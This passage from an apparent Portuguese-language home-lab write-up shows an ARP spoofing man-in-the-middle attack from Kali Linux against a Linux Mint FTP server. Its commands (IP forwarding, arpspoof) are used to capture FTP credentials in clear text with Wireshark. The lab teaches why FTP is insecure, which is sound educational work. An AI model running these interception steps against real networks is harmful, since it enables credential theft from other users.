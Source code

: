 
**Irei fazer o mesmo processo mas com a máquina Linux Mint.****

![Screenshot 2024-03-05 032439](https://github.com/pedrobart/hackingspot/assets/87336174/15051e44-007f-4b36-9e24-6b046335e355)

**Conectividade com sucesso e a captura do tráfego com recurso ao filtro ICMP no wireshark.**

Habilitar o Port Forwarding no kali linux
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Ataque de [ArpSpoof](https://www.imperva.com/learn/application-security/arp-spoofing/)
Executar no terminal do kali linux o seguinte comando
```bash
arpspoof -i eth0 -t IP_KALI IP_ALVO
```


**Instalar no Linux Mint o serviço FTP**
```bash
sudo apt install vsftpd
```
**Iniciar o serviço** 
```bash
sudo systemctl start vsftpd 
sudo systemctl enable vsftpd
```

**Criar um utilizador FTP**

```bash
sudo useradd -m [username]
sudo passwd [username]
```

**Caso seja necessário permitir o tráfego na firewall**
```bash
sudo ufw allow 20/tcp
sudo ufw allow 21/tcp
```
**Reiniciar a firewall** 
```bash
sudo ufw reload
```

**Na imagem a seguir, através da minha máquina Host irei conectar-me ao servidor FTP do Linux Mint criado anteriormente, com o programa [Filezilla](https://filezilla-project.org/).**
**E podemos ver o tráfego de dados FTP no wireshark através do sistema kali linux.** 
**As credenciais de login que a maquina host (192.168.1.89) utilizou para se conectar ao servidor FTP (Linux Mint - 192.168.1.99)**

**![Screenshot 2024-03-07 032846](https://github.com/pedrobart/hackingspot/assets/87336174/47ddff13-c96b-4849-8266-1f25bc35cf71)**

**No Wireshark, o tráfego FTP (File Transfer Protocol) é frequentemente visível em texto claro devido à maneira como o protocolo FTP opera.** 
**O FTP geralmente transmite dados em texto claro, especialmente durante a fase de autenticação e troca de comandos entre o cliente e o servidor FTP. Isso significa que os comandos e respostas FTP são enviados como texto simples, o que torna possível visualizá-los sem decodificação adicional, o quê não é recomendado pois compromete a confidencialidade e a integridade dos dados,**
**tornando-os facilmente visíveis para qualquer pessoa que esteja a capturar o tráfego.**

